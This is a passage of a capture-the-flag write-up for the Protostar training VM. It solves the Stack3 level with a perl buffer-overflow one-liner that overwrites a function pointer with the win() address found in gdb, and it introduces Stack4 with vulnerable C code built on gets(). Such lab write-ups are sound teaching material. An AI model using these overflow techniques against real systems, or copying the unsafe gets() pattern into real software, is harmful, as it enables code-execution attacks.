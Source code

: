 ### Challenge solution

This is getting interesting !

We are provided with a `win` function, and we need to jump to it.

Since `win` is just an address in the memory, we can set `fp` to point to `win` if we know its address.

To determine the address of `win`, we can use gdb.


```bash
user@protostar:/opt/protostar/bin$ gdb ./stack3
(gdb) p win
$1 = {void (void)} 0x8048424 <win>
```

We can use `objdump` as well.

```bash
user@protostar:/opt/protostar/bin$ objdump -t ./stack3 | grep win
08048424 g     F .text  00000014              win
```

We got the address : `0x8048424`

Now let's use the same technique as earlier.


```bash
user@protostar:/opt/protostar/bin$ perl -e 'print "A" x 64 . "\x24\x84\x04\x08"' | ./stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
```

We solved it :D

## Stack 4

### Challenge description

Stack4 takes a look at overwriting saved EIP and standard buffer overflows.

This level is at `/opt/protostar/bin/stack4`

Hints

+ A variety of introductory papers into buffer overflows may help.
+ gdb lets you do “run < input”
+ EIP is not directly after the end of buffer, compiler padding can also increase the size.

### Challenge source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```